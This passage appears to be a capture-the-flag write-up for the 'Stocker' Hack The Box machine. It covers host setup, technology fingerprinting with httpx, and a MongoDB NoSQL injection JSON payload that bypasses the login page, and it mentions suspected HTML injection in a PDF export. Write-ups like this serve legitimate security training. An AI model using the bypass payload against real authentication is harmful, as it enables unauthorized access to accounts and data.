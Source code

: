 
``` zsh
sudo echo "10.10.11.196 dev.stocker.htb" >> /etc/hosts
```

#### http://dev.stocker.htb
##### Tech detect
```zsh
echo "dev.stocker.htb" | httpx -td                                                                                                                                                                  2 ⨯

    __    __  __       _  __
   / /_  / /_/ /_____ | |/ /
  / __ \/ __/ __/ __ \|   /
 / / / / /_/ /_/ /_/ /   |
/_/ /_/\__/\__/ .___/_/|_|
             /_/

		projectdiscovery.io

[INF] Current httpx version v1.2.9 (latest)
http://dev.stocker.htb [Express,Nginx:1.18.0,Node.js,Ubuntu]
```

we have a node js webserver


![Untitled](/assets/images/Stocker/Pasted image 20230414005158.png)


Trying `admin:admin`
![Untitled](/assets/images/Stocker/Pasted image 20230414005424.png)

I have tried password spraying, sqli  but no luck 
seems we need one of the node.js login bypasses

##### Hacking NodeJS and MongoDB
I found this [post](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb) and it worked :)

payload:
```json
{
  "username": { "$gt": "" },
  "password": { "$gt": "" }
}
```

![Untitled](/assets/images/Stocker/Pasted image 20230414011156.png)

and we are in :)

![Untitled](/assets/images/Stocker/Pasted image 20230414011735.png)

What can we do?
- Add items to cart
-  View cart
- Submit the purchace 
- View the purchase order as a pdf file (we can have html injection here)
